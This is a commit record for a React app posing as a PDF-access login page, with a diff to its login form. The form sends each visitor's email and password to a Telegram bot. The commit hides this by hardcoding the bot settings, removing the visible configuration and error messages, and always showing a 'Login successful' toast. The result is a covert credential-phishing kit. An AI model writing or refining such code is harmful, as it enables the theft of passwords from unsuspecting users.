

Before and after one commit to Lawfad4223/pdf-gatekeeper-access, a React (Vite) app: page / in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Remove Telegram configuration
Removes the Telegram configuration section from the login form.

```diff
--- a/src/components/LoginForm.tsx
+++ b/src/components/LoginForm.tsx
@@ -16,17 +16,15 @@ const LoginForm = ({ onLogin }: LoginFormProps) => {
   const [password, setPassword] = useState("");
   const [honeypot, setHoneypot] = useState(""); // Honeypot field
   const [isLoading, setIsLoading] = useState(false);
-  const [botToken, setBotToken] = useState("");
-  const [chatId, setChatId] = useState("");
   const { toast } = useToast();
+
+  // Set your Telegram bot token and chat ID here
+  const botToken = ""; // Add your bot token here
+  const chatId = ""; // Add your chat ID here
 
   const sendToTelegram = async (email: string, password: string) => {
     if (!botToken || !chatId) {
-      toast({
-        title: "Telegram Configuration Missing",
-        description: "Please configure your Telegram bot token and chat ID.",
-        variant: "destructive",
-      });
+      console.log("Telegram configuration missing");
       return false;
     }
 
@@ -52,11 +50,6 @@ const LoginForm = ({ onLogin }: LoginFormProps) => {
       return true;
     } catch (error) {
       console.error('Error sending to Telegram:', error);
-      toast({
-        title: "Telegram Error",
-        description: "Failed to send login details to Telegram bot.",
-        variant: "destructive",
-      });
       return false;
     }
   };
@@ -100,7 +93,15 @@ const LoginForm = ({ onLogin }: LoginFormProps) => {
         });
       }, 1000);
     } else {
-      setIsLoading(false);
+      // Continue with login even if Telegram fails
+      setTimeout(() => {
+        onLogin(email, password);
+        setIsLoading(false);
+        toast({
+          title: "Login successful",
+          description: "Welcome! You can now view PDF attachments.",
+        });
+      }, 1000);
     }
   };
 
@@ -120,37 +121,6 @@ const LoginForm = ({ onLogin }: LoginFormProps) => {
         </CardHeader>
 
         <CardContent>
-          {/* Telegram Configuration */}
-          <div className="space-y-4 mb-6 p-4 bg-gray-50 rounded-lg">
-            <h3 className="text-sm font-medium text-gray-700">Telegram Configuration</h3>
-            <div className="space-y-2">
-              <Label htmlFor="botToken" className="text-xs text-gray-600">
-                Bot Token
-              </Label>
-              <Input
-                id="botToken"
-                type="text"
-                placeholder="Enter your Telegram bot token"
-                value={botToken}
-                onChange={(e) => setBotToken(e.target.value)}
-                className="h-10 text-sm"
-              />
-            </div>
-            <div className="space-y-2">
-              <Label htmlFor="chatId" className="text-xs text-gray-600">
-                Chat ID
-              </Label>
-              <Input
-                id="chatId"
-                type="text"
-                placeholder="Enter your Telegram chat ID"
-                value={chatId}
-                onChange={(e) => setChatId(e.target.value)}
-                className="h-10 text-sm"
-              />
-            </div>
-          </div>
-
           <form onSubmit={handleSubmit} className="space-y-6">
             {/* Honeypot field - hidden from users but visible to bots */}
             <div className="hidden">
```
